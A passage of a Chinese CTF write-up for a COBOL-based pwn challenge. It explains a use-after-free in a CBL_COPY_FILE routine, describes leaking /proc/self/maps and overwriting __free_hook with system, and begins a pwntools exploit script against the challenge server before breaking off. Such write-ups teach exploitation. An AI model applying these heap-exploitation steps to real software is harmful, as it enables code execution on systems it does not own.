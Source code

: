 ```
    free (fn2);
    ret = 0;
    while ((i = read (fd1, fn1, sizeof(fn1))) &gt; 0) `{`
        if (write (fd2, fn1, (size_t)i) &lt; 0) `{`
            ret = -1;
            break;
        `}`
    `}`
    close (fd1);
    close (fd2);
    return ret;
`}`
```

有一个比较离谱的UAF，就是`fn1 = cob_str_from_fld (cob_current_module-&gt;cob_procedure_parameters[0]);`，`free (fn1);`，然后又`read (fd1, fn1, sizeof(fn1)))`，简单直白的UAF。

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF"></a>利用思路
1. 由于无法直接调用所给功能去`open("/proc/self/maps)`，这里通过strace跟踪发现，`CBL_OPEN_FILE`最后是`openat(AT_FDCWD, "/proc/self/maps", O_RDWR) = -1 EACCES (Permission denied)`，是打不开的；但是如果通过`CBL_COPY_FILE`的话，底层是`openat(AT_FDCWD, "/proc/self/maps", O_RDONLY) = 3`，是可以直接将`/proc/self/maps`复制到`/dev/stdout`，就能将内容打印到标准输出上，实现leak。
1. 然后利用`CBL_COPY_FILE`里存在的UAF，分配到`__free_hook`，改为`system`即可。
### <a class="reference-link" name="exp"></a>exp

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys, os, re

context(arch='amd64', os='linux', log_level='debug')

_proc = os.path.abspath('./chall')
_libc = os.path.abspath('./libc-2.27.so')

libc = ELF(_libc)
elf = ELF(_proc)

p = remote('cobol.pwni.ng', 3083)

# menu
choose_items = `{`
    "create": 1,
    "open": 2,
    "read": 3,
    "write": 4,
    "close": 5,
    "copy": 6
`}`

def choose(idx):
    p.sendlineafter("&gt; ", str(idx))

def create_file(filename, idx, size):
    choose(choose_items['create'])
    p.sendlineafter("File Name:", filename)
    p.sendlineafter("Index:", str(idx))
    p.sendlineafter("Buf Size:", str(size))

def open_file(filename, idx, size):
    choose(choose_items['open'])
    p.sendlineafter("File Name:", filename)
```